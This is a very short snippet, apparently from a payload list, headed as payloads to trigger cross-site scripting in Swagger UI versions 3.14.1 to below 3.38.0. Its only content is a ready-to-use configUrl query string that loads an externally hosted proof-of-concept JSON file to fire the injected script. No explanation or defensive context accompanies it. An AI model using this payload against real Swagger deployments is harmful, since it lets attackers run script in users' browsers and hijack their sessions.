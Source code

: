 # Payloads to trigger XSS in versions of Swagger >=3.14.1 < 3.38.0
?configUrl=https://anhdq201.github.io/swagger-xss-poc/anhdq201.json
